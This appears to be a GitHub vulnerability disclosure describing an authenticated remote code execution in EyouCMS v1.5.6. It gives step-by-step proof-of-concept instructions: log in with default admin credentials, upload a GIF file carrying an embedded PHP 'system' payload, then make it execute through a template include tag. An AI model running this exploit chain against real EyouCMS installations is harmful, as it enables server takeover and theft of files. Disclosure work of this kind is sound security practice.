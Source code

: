 # EyouCMSv1.5.6 has Remote Code Excute vulnerability

## vendors

https://www.eyoucms.com/rizhi/

## Vulnerability function

Avatar upload And template include.

## Description

EyouCMSv1.5.6 has a remote code execution vulnerability in a system, which needs to be authenticated.

## POC

1.  login in the System.

username: admin

password: admin

2. Upload your website's logo

   logo's content:  

   ```
   GIF89a
   <?php system(‘cat /f*’);?>
   ```

![image-20241105221951608](https://github.com/user-attachments/assets/ae78a3c7-db74-46a6-9007-6b2beecacf37)

Upload the GIF and get the path

```
{"url":"\/uploads\/allimg\/20241104\/*.gif","time":1730707775,"width":2573,"height":16188,"title":"banner","original":"750.gif","state":"SUCCESS","path":"images","img_id":"3"}
```

3. Get the path uploads/allimg/20241104/*.gif



4.Go to Map Navigation to add a template to manage

![image-20241105222201758](https://github.com/user-attachments/assets/9f5fe3af-1a6e-4755-bbda-e5f4ee4fa591)

Then click on Template Management to add a file in the file of /pc/index.htm (here is the homepage template of the website).

{eyou:include file=”uploads/allimg/*.gif” /}

5.Then submit, go back to the homepage and get the flag at the bottom

![image-20241105222332182](https://github.com/user-attachments/assets/f5300907-db97-412a-a313-e6c01b51a199)